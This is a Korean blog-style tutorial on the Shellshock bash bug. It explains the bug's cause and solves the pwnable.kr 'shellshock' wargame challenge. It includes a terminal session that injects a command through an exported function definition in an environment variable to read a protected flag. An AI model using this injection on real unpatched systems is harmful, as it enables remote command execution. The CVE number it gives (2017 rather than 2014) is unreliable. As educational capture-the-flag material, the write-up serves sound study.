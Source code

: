 # Shellshock

### CVE-2017-6271

> 작성자 : f.killrra
>
> 작성일 : 2018-07-15

~$ what is shellshock?

> 이 취약점을 간단히 소개한다면 bash 쉘에서 원격 명령을 실행 할 수 있는 취약점입니다.

> 참고로 이 취약점은 지금은 패치가 되었고 bash 4.3 이하 버전에서 발생한다고 합니다.

영국 IT  매니저로 근무하는 프랑스인 스테판 챠젤라스는 bash의 소스 코드를 분석하던 중 원격 명령을 실행 할 수 있는 취약점을 2014년 9월 12일에 발견하여 bash 개발 담당자에게 신고하였습니다.

이 취약점이 존재하는 코드는 1993년도 이전부터 최근에 발견되기 전까지 20년 동안 존재했으며 OpenSSL 하트블리드 취약점에 이름을 짓는 유행에 따라 이 취약점의 이름을 쉘쇼크라고 짓게 되었습니다.

bash의 취약점을 이용한 공격인 만큼 bash에 대한 이해가 필요합니다.

> bash shell 은 유닉스, 리눅스, 맥 계열에서 주로 사용되는 프로그램 명령어로 컴퓨터 작업을 할 수 있는 환경을 제공하는 소프트웨어입니다.
>
> 예를 들어 윈도우는 마우스를 사용하여 그림으로 표현된 파일이나 폴더를 이용하지만 유닉스, 리눅스, 맥에서는 사용 용도에 따라 그래픽이 지원되지 않을 경우도 있고 효율성을 위해 명령으로만 파일을 실행하고 작업하기 좋은 환경으로 설계 되어있습니다.
>
> 이런 bash shell을 통해서 명령어를 사용하면 시스템 정보를 확인하거나 프로그램을 실행시키는 컴퓨터 작업, 권한 사용 등을 수행할 수 있습니다. 배쉬 셀에서 명령어가 입력되면 입력된 명령어를 해석하여 명령어에 맞는 작업 결과를 제공합니다.

![default](https://user-images.githubusercontent.com/40850499/42733381-83789310-886b-11e8-9710-9a1c77d8a970.PNG)

GNU bash 에서 발견된 쉘쇼크 취약점이 공개된 이후 큰 이슈가 되었고 이를 기반으로한 많은 취약점을 제공했는데 이 처럼 원격 명령 실행, 함수 선언문 파싱 에러, 잘못된 메모리 접근 등 여러가지 행위를 가능하게 했습니다.

저는 여기서 취약점의 기본이 되는 가장 위의 내용을 실습해보았습니다.

취약점이 발생한 부분은 Bash 쉘이 제공하는 함수 선언 기능인데요.

() 와 { 이것으로 시작하는 문자열을 시스템 환경 변수에 등록하면 동일한 이름을 가진 함수로 선언이 됩니다.

하지만 함수 선언문 끝에 임의의 명령어를 추가로 삽입할 경우, Bash가 함수문에서 처리를 멈추지 않고 추가로 삽입한 명령어를 계속 실행시키기 때문에 문제가 발생합니다.

![default](https://user-images.githubusercontent.com/40850499/42733392-a2239b34-886b-11e8-8830-aba75c71f1b2.PNG)

이것이 가능한 이유는 bash 의 소스코드를 분석해보면 알 수 있는데요.

evalstring.c 파일 내에 정의되어 있는 parse_and_execute() 함수에서 bash에 전달된 명령어를 처리하는 과정에서 반복문을 사용하는데, 함수 선언문 뒤에 명령어가 삽입된 것을 확인하고 반복문을 종료시키는 코드가 없기 때문에 가능합니다.

**이는 직접적으로 명령어 주입이 가능한 취약점이기 때문에 ASLR 등의 운영체제 보호 기법에 전혀 영향을 받지 않습니다.** 

`이 점에서 매우 구미가 땡기네요..`

![demo](https://user-images.githubusercontent.com/40850499/42733397-b0e8afc4-886b-11e8-82c6-37b7c9746dea.PNG)

[pwnable.kr](http://pwnable.kr) 의 문제 shellshock를 풀면서 취약점을 더 쉽게 이해할 수 있습니다.

> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :)
>
> ssh [shellshock@pwnable.kr](mailto:shellshock@pwnable.kr) -p2222 (pw:guest)

ssh접속하여 ls 명령어로 뭐가 들었는지 봅시다.

> shellshock@ubuntu:~$ ls
>
> bash  flag  shellshock    shellshock.c
>
> shellshock@ubuntu:~$ cat shellshock.c
>
> \#include <stdio.h>
>
> int main(){
>
> ​    setresuid(getegid(), getegid(), getegid());
>
> ​    setresgid(getegid(), getegid(), getegid());
>
> ​    system("/home/shellshock/bash -c 'echo shock_me'");
>
> ​    return 0;
>
> }
>
> shellshock@ubuntu:~$

cat 으로 shellshock.c 파일을 열어본 내용입니다.

소스코드를 분석해보면 getegid() 는 사용자의 ID를 반환하고, setresuid() 는 실제 프로세스의 유효 사용자 및 ID를 설정하는 함수이고, getegid() 를 통해 얻어온 사용자의 ID로 이 프로세스의 권한을 설정해주는 작업을 합니다.

setresgid() 또한 유효 gid를 설정해주는 함수로 shellshock으로 세팅을 해줍니다.

> shellshock@ubuntu:~$ id
>
> uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)

현재 uid, gid, groups 모두 shellshock이고 setuid 가 걸린 바이너리는 shellshock_pwn 의 권한을 갖습니다.

그리고 마지막으로 system() 를 호출하여 sub shell 인 bash 를 호출하여 echo shock_me를 출력하고, 프로세스가 종료됩니다.

이때 sub bash shell 이 실행되면서 환경변수의 내용을 그대로 복사해오게 되고 선언되었던 환경 변수의 함수를 사용하게 됩니다.

> shellshock@ubuntu:~$ export x='ABCD'
>
> shellshock@ubuntu:~$ x
>
> x: command not found
>
> shellshock@ubuntu:~$ x() { echo hacked by f.killrra; }
>
> shellshock@ubuntu:~$ export -f x
>
> shellshock@ubuntu:~$ export x='() { echo hacked by f.killrra; }; /bin/cat flag'
>
> shellshock@ubuntu:~$ ./shellshock
>
> ------------------flag------------------
>
> Segmentation fault
>
> shellshock@ubuntu:~$

이렇게 export x 하여 아무값이나 넣어주고, x 함수를 정의해준 뒤 -f 옵션(function option)을 주어 환경변수를 등록해 줍니다.

그 뒤 추가적으로 /bin/cat flag 라는 명령어를 삽입한뒤 shellshock 바이너리를 실행 시키면 flag 파일을 열어볼 수 있습니다. 

이상 shellshock (CVE-2017-6271)에 대한 정리를 마칩니다.

 